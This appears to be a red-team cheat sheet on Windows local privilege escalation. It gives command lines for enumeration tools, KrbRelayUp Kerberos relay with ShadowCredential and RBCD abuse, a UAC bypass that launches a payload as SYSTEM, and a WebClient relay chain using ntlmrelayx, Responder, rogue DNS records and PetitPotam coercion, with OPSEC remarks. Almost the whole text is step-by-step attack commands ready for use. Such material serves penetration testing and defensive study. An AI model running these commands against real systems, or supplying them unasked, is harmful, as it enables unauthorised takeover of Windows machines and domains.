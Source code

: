# __Elevate privileges on Windows__
>Author: Pieter Miske
---
### __Automated privesc enumeration tools:__
- Check for misconfigurations that allow for local privilege escalation \([SharpUp](https://github.com/GhostPack/SharpUp)\): ```sharpup.exe audit```
- Thoroughly enumerate for local privesc vulnerabilities \(OPSEC: very noisy\) \([PrivescCheck](https://github.com/itm4n/PrivescCheck)\): ```Invoke-PrivescCheck```
- This tool aims to enumerate common Windows configuration issues and secrets in files \(OPSEC: very noisy\) \([WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)\): ```.\winPEAS.exe (systeminfo) (userinfo) (serviceinfo) (applicationinfo) (windowscreds) (filesinfo)```

### __Abuse LPE domain vulnerabilties:__
>To leverage these "No\-Fix" LPE techniques it is mandatory that the workstation is domain joined. Furthermore, it is required that LDAP signing is not configured on the Domain Controller \(default\)\.
##### _KrbRelay with RBCD/ShadowCredential privilege escalation:_
- ShadowCredential method: it is mandatory that the Domain Controller has its own key pair \(e\.g ADCS is enabled or certificate authority \(CA\) is configured on the DC\)\.
	- 1\. force SYSTEM authentication, relay Krb auth to LDAP and set a newly generated KeyCredential to the local machine account's 'msDS\-KeyCredentialLink' attribute \([krbRelayUp](https://github.com/Dec0ne/KrbRelayUp)\): ```KrbRelayUp.exe relay -m shadowcred –ForceShadowCred```
	- 2\. Via the KeyCredential obtain TGT for the local machine account, use S4U2self method to get TGS for administrator user, import the TGS, and start the Service Manager to bypass UAC via SCMUACBypass method \(the payload\.exe will die so make sure it starts a new process\) \(KrbRleayUp\): ```KrbRelayUp.exe spawn -m shadowcred -d <FQDN> -dc <FQDN DC> -ce <base64 TGS string> (-s <new service name>) -sc C:\<path to payload.exe>```
- RBCD method: it is mandatory the compromised user has control over or is able to add a new computer account to the domain \(default\)\.
	- 1\. Create a new computer account, force SYSTEM authentication, relay Krb auth to LDAP and set RBCD on the current computer account \([krbRelayUp](https://github.com/Dec0ne/KrbRelayUp)\): ```KrbRelayUp.exe relay -Domain <FQDN> -CreateNewComputerAccount -ComputerName <new computer name>$ -ComputerPassword <new password>```
	- 2\. Request TGT, use S4U2self method to get TGS for administrator user, import the TGS, and start the Service Manager to bypass UAC via SCMUACBypass method \(KrbRelayUp\): ```KrbRelayUp.exe spawn -m rbcd -d <domain> -dc <FQDN DC> -cn <created computer name>$ -cp <password> (-s <new service name>) -sc C:\<path to payload.exe>```

##### _Privilege escalation on workstation via WebClient:_
- 1\. Verify if the WebClient service is listed as 'Stopped' or 'Running': ```Get-Service WebClient```
- 2\. If the WebClient is stopped, you may be able to start the service programmatically via a service trigger:
    - \([StartWebClient BOF](https://github.com/outflanknl/C2-Tool-Collection/tree/main/BOF/StartWebClient)\): ```StartWebClient```
    - \([StartWebClient](https://gist.github.com/klezVirus/af004842a73779e1d03d47e041115797)\): ```.\StartWC.exe```
- 3\. Start relay server that will convert http traffic to ldaps, create a new computer account and give it RBCD privileges \(impacket\): ```(proxychains4) python3 ntlmrelayx.py -smb2support -t ldaps://<FQDN DC> --delegate-access```
- 4\. Start Responder to establish host name resolution to your own attacker system \(turn smb and http off in Responder\.conf\): ```python Responder.py -I <interface> -v```
- 5\. \(optional\) if Responder is not running in the same domain as the target system, add a new DNS record that points to your attacker system or a pivot host \([Powermad](https://github.com/Kevin-Robertson/Powermad)\): ```Invoke-DNSUpdate -DNSType A -DNSName kali -DNSData <IP own system or pivot host>```
- 6\. Coerce the current system to make a webdav \(http\) based authentication request to your relay server \(example PetitPotam): ```Invoke\-PetitPotam <FQDN current system> '<Responder Machine Name or set DNS name>@80/test'```